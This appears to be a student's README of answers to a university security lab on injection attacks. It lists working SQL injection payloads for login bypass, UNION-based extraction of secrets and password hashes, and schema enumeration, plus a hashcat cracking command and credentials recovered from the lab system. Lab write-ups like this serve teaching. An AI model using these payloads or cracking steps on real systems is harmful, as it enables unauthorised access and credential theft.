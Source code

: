 # KBE-Injections
Second lab of Communication Security course


# Answers
Here are the answers for this lab.

## Exercise 1
Login without password
```
' OR 1=1 #
```

## Exercise 2
I have used Selenium + LIKE operator to find the result in 40 iterations.
```
PIN of 'sinelser' is 3043 
```


## Exercise 3
To steal the secret was enough to use
```
badName' UNION SELECT secret AS username FROM users WHERE username LIKE 'sinelser' #
```

and I've got 
```
AWQJITSIA5MZXDBK   (secret)
```

Then I've generated OTP using Google Authenticator. 

## Exercise 4
To obtain a list of usernames, passwords, salts, secrets and pins I have used
 
```
offset=10 UNION SELECT CONCAT("  USERNAME IS ", username, "  PASSWORD IS  ", password, "  SALT IS  ", salt, "   PIN IS", pin, "  SECRET IS  ", secret) AS date_time, '' AS message FROM users
```

## Exercise 5
To obtain my password I've used BruteForce
```
Password for 'sinelser' is ded93
```


## Exercise 6
To obtain teacher's password I've used prepared script to get a lot of popular passwords
The result file is 587 Mb. Then I have decided to use hashcat to go through all the combinations in that file.
Then I wrote method to add salt to each word and eventually run:
 
```
hashcat -a 0 -m 110 hashes.txt passwordsWithSalt.txt
```

Where hashes.txt has only hash of teacher's password and passwordsWithSalt.txt has a lot of passwords with put salt.

####Password is fm9fytmf7q

## Exercise 7
 Because password doesn't have any symbols like $_&#@(. Also it doesn't have Upper letters.

## Exercise 8
I've written 2 Injections:
1. Prints all column names
```
offset=10 UNION SELECT column_name AS message, '' AS date_time FROM information_schema.columns 
```
2. Prints all tables name
```
offset=10 UNION SELECT table_name AS message, '' AS date_time FROM information_schema.tables
```

## Exercise 9
 
```
Imposibile
```

